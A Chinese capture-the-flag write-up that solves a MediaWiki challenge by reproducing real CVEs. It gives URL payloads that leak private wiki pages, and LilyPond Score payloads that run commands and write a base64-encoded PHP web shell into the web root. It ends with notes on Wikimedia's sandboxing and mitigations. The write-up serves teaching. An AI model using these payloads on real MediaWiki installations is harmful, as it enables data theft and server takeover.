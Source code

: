 # [Web] 私有笔记

- 命题人：debugger
- 知识，与你分享：200 分
- 来我家做客吧：300 分

## 题目描述

<p>大家或许做过 Hackergame 2022 “Flag 的痕迹”一题，或许没做过，这不重要。</p>
<p>总之，<ruby>现在<rt>2020年</rt></ruby>小 Z 在自己的机器上部署了一个 MediaWiki 用于记录自己的笔记，把 Flag 放在里面，然后想方设法不让其他人看到。
但是，这次不仅 Flag 被泄漏了，黑客还在机器上干了更多坏事……</p>
<p>一些说明：</p>
<ol>
<li>此题和 Hackergame 的题目解法没有直接联系。</li>
<li>此题不是代码审计题，一开始就阅读源代码是错误的选择。</li>
</ol>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>提供以下配置文件：<a target="_blank" rel="noopener noreferrer" href="/service/attachment/prob07/Dockerfile">Dockerfile</a>、<a target="_blank" rel="noopener noreferrer" href="/service/attachment/prob07/LocalSettings.php">LocalSettings.php</a>。</li>
<li>2021年12月，MediaWiki爆出<strong>一系列</strong>漏洞，允许攻击者访问私有 wiki 的任何内容，以及修改公开 wiki 的任何页面（例如维基百科的首页）。所幸，漏洞被发现并修复前没有造成已知的负面影响。</li>
<li>2020年7月，Score扩展爆出漏洞，允许攻击者执行任意命令。漏洞发现不久，Score扩展就在维基媒体计划禁用了。在此漏洞的修复过程中，又发现了一系列绕过方法。维基媒体计划的最终的处理方法是把LilyPond放到一个独立的容器运行；13个月后（2021年8月），Score扩展才被重新启用。</li>
<li>可以参考MediaWiki bug report system对相关漏洞的讨论。</li>
</ul>
</div>

**【网页链接：访问题目网页】**

**[【隐藏附件：Dockerfile】](attachment/Dockerfile)**

**[【隐藏附件：LocalSettings.php】](attachment/LocalSettings.php)**

## 预期解法

这是一道CVE复现题。

### Flag 1

在CVE网站[搜索MediaWiki private wiki](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=MediaWiki+private+wiki)就能找到Flag 1涉及的CVE，此外在MediaWiki官方网站的[MediaWiki 1.34页面](https://www.mediawiki.org/wiki/MediaWiki_1.34)也有向[漏洞描述](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)的链接。共有两个CVE和Flag 1相关：[CVE-2021-44858](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44858)、[CVE-2021-45038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45038)，复现任何一个即可。从CVE的描述页面可以找到bug tracker里面的[相关](https://phabricator.wikimedia.org/T297322)[讨论](https://phabricator.wikimedia.org/T297574)，里面就有复现方法。

- CVE-2021-44858：<https://prob07-xxxxxxxx.geekgame.pku.edu.cn/index.php?title=%E9%A6%96%E9%A1%B5&action=mcrundo&undo=1&undoafter=2>、<https://prob07-xxxxxxxx.geekgame.pku.edu.cn/index.php?title=%E9%A6%96%E9%A1%B5&action=edit&undo=1&undoafter=2>（任选一个）
- CVE-2021-45038：<https://prob07-xxxxxxxx.geekgame.pku.edu.cn/index.php?action=rollback&from={{:flag}}>

拿到Flag 1后，需要用给的用户名和密码登录，然后才能进行下一步。

### Flag 2

如果打开<https://www.mediawiki.org/wiki/Extension:Score>，可以看到明显的[安全提示](https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory)，里面就涉及了本问的CVE。直接打开[CVE-2020-29007](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29007)并不能看到该CVE的任何内容，因此还是要从[bug tracker的讨论](https://phabricator.wikimedia.org/T257062)获取相关信息。

首先里面提到了可以执行getpwuid函数。只要任意编辑一个页面，贴上下面的内容，然后点击显示预览，就能看到getpwuid的结果。

```xml
<score>\new Staff <<{c^#(object->string (getpwuid (getuid)))}>></score>
```

接着你可以发现有/var/www/html/index.php文件（这是apache网站首页的默认路径）。

```xml
<score>\new Staff <<{c^#(if (file-exists? "/var/www/html/index.php") "true" "false")}>></score>
```

接着，上传一个shell.php文件：

```xml
<score>\new Staff <<{c^#
(number->string (system "echo PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllOyB9Pz4= | base64 -d > /var/www/html/shell.php"))
}>></score>
```

再打开<https://prob07-xxxxxxxx.geekgame.pku.edu.cn/shell.php?cmd=ls%20-l%20/>，就可以看到根目录下有flag2文件，并且也可以通过<https://prob07-xxxxxxxx.geekgame.pku.edu.cn/shell.php?cmd=cat%20/flag2>读出来。


### 附注

此题的idea爆出CVE不久就有了，不是因为Hackergame的题目才出了这道题。另外，本题早期版本在数据库里面还有个Flag 3，上传了shell之后把数据库拖下来就能看到。后来xmcp觉得有点白给所以删掉了。

2021年12月爆出的漏洞其实潜在影响非常严重。MediaWiki有一个[Common.js](https://zh.wikipedia.org/wiki/MediaWiki:Common.js)页面，上面放的JavaScript代码所有访问网站者都会执行，允许任何用户修改任何页面会导致任何用户可以在维基百科注入任何JavaScript代码。

Score的问题在维基媒体计划的场景实际上比题目描述的复杂得多。本来Score扩展有两种机制来加强安全性和阻止RCE（为了降低题目难度，本题并没有采用以下任何手段）：
1. 可以把LilyPond放在[firejail](https://github.com/netblue30/firejail)里面执行。firejail是一个SUID沙盒程序，使用Linux 命名空间、seccomp-bpf和Linux功能来限制不受信任的应用程序的运行环境以降低安全漏洞被利用的风险。 
2. LilyPond里面有一个安全模式，安全模式可以阻止使用system等不安全语法，但是安全模式只提供了部分功能，所以维基媒体选择不使用安全模式。

2020年7月，有用户发现维基媒体安装的Score可以RCE。检查发现，[启用firejail的配置名称写错](https://phabricator.wikimedia.org/T257062#6277460)，从而firejail没有启用。启用了firejail后，在测试和代码审计中又发现了更多问题：
1. LilyPond即使在安全模式可以执行任意PostScript代码（CVE-2020-17353），所以Score后来选择先运行LilyPond生成PostScript再用Ghostscript的安全模式生成图片。
2. firejail存在命令注入，可以实现RCE（CVE-2020-17367、CVE-2020-17368），所以需要过滤firejail的命令参数（后来维基媒体计划弃用了firejail，见下文）。
3. LilyPond存在安全模式绕过，也即在安全模式也有办法运行非安全的代码（CVE-2020-17354）。此问题LilyPond方面发现难以修复，所以LilyPond的新版本把安全模式整个移除了。

因为LilyPond的安全模式绕过难以修复，所以维基媒体计划目前的处理方法是把LilyPond移到了一个和服务器平行的容器运行（这样即使能在容器里面RCE也影响不到服务器），同时限制了容器的资源（用最小权限用户运行，并且限制使用的容器资源避免用户搅屎）。

